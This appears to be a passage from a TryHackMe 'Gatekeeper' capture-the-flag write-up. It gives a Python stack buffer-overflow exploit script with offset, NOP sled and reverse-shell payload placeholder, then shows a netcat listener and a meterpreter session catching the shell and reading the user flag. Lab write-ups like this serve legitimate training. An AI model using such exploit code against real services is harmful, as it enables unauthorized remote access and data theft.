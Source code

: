 ```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<IP_ADDRESS>"
port = 31337
timeout = 5

offset = 146
overflow = "A" * offset
retn = "<JUMP_POINT>"
padding = "\x90" * 16
buf = ""
<REVERSE_SHELL_PAYLOAD>
payload = buf
postfix = "\r\n"

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))

try:
    print("Sending evil buffer...")
    s.send(bytes(buffer, "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
    sys.exit(0)
```

Now we launch a listener on our Kali machine and run the exploit script.

```bash
┌──(DrunkenHacker㉿kali)-[~/MyCourses/TryHackMe]
└─$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [<LOCAL_ADDRESS>] from (UNKNOWN) [<TEST_ADDRESS>] 49645
Microsoft Windows [version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Tous droits r�serv�s.

C:\Users\DrunkenHacker\Desktop\Gatekeeper>
```

Now that we successfully tested the exploit on our local machine, we now apply the exploit on the target machine. We will be using Metasploit handler to catch the reverse shell.

```meterpreter
meterpreter > dir
Listing: C:\Users\natbat\Desktop
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1197   fil   2020-04-21 23:00:33 +0200  Firefox.lnk
100666/rw-rw-rw-  282    fil   2020-04-21 22:57:09 +0200  desktop.ini
100777/rwxrwxrwx  13312  fil   2020-04-20 07:27:17 +0200  gatekeeper.exe
100777/rwxrwxrwx  135    fil   2020-04-22 03:53:23 +0200  gatekeeperstart.bat
100666/rw-rw-rw-  140    fil   2020-05-15 03:43:14 +0200  user.txt.txt

meterpreter > cat user.txt.txt
[REDACTED]
```
